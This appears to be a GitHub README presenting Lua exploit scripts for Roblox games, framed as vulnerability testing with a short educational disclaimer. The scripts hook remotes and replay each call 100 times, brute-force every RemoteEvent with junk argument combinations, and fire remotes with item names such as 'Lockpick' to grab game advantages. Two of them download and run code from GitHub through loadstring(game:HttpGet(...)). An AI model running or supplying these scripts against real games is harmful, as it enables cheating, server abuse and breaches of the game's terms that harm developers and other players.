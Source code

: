 # Roblox Remote Vulnerability Testing Scripts

A collection of scripts for testing vulnerabilities in **RemoteEvents** and **RemoteFunctions** in Roblox games. These scripts assist in **brute-forcing remote calls**, **spying on RemoteFunctions**, and **manipulating remote arguments**.

## Scripts Overview

### 1️⃣ Remote Hooking  
Hooks into remote functions and executes custom logic on intercepted calls.  

<details>
  <summary>Click to expand</summary>

```lua
local HS = loadstring(game:HttpGet('https://raw.githubusercontent.com/0zBug/HookingService/refs/heads/main/main.lua'))()
  local function HookFunction(originalFunction, remote, ...)
      local args = {...}
      print("arguments:", unpack(args))
      --
      for i = 1, 100 do
          originalFunction(remote, unpack(args))
      end
  
      return originalFunction(remote, unpack(args))
  end
  local remote = workspace
  HS:HookRemote(remote, HookFunction)
```
</details>

---

### 2️⃣ RemoteFunction Spy  
Recursively prints tables and RemoteFunction outputs in the developer console.  

<details>
  <summary>Click to expand</summary>

```lua
  local repr = loadstring(game:HttpGet('https://raw.githubusercontent.com/Ozzypig/repr/master/repr.lua'))()
game.StarterGui:SetCore("DevConsoleVisible", true)
```
</details>

---

### 3️⃣ Bruteforce RemoteEvents  
Attempts to brute-force **RemoteEvent** calls using a variety of parameter values.  

<details>
  <summary>Click to expand</summary>

```lua
local params = {
    nil, true, false, 0, 1, -1, 100, -100, math.huge, 0/0, "100bucks2", "imadethis12321", workspace, 
    game.Players.LocalPlayer, game.Players.LocalPlayer.Character,
}
for i,v in pairs(game.ReplicatedStorage.Packages:GetDescendants()) do 
    if v:IsA("RemoteEvent") then 
        for i,b in pairs(params) do
            for i,c in pairs(params) do
                pcall(function()
                    v:FireServer(b, c)
                end)
            end
        end
    end
end
```
</details>

---

### 4️⃣ Miscellaneous Remote Call  
Executes a predefined **RemoteEvent** with a specific argument (`"Batmobile"`).  

<details>
  <summary>Click to expand</summary>

```lua
for i,v in pairs(game.ReplicatedStorage.Packages:GetDescendants()) do
    if v:IsA("RemoteEvent") then 
        v:FireServer("Batmobile") -- Edit this as needed
    end
end
```
</details>

---

### 5️⃣ Targeted Remote Bruteforcing  
Attempts to call RemoteEvents with specific **game-related parameters** (e.g., `"Lockpick"`, `"Police"`).  

<details>
  <summary>Click to expand</summary>

 ```lua
for i,v in pairs(game.ReplicatedStorage:GetDescendants()) do 
    if v:IsA("RemoteEvent") and v.Name ~= "giveMop" and v.Name ~= "ResetPlayerData" and v.Name ~= "Respawn" and not v:IsDescendantOf(game.ReplicatedStorage.spawner) then 
        v:FireServer("Lockpick")
    end
end
```
</details>

---

## ⚠️ Disclaimer  
These scripts are for **educational and security testing purposes only**. **Misuse may violate the terms of service of Roblox** and could result in bans or legal consequences. Use responsibly.  
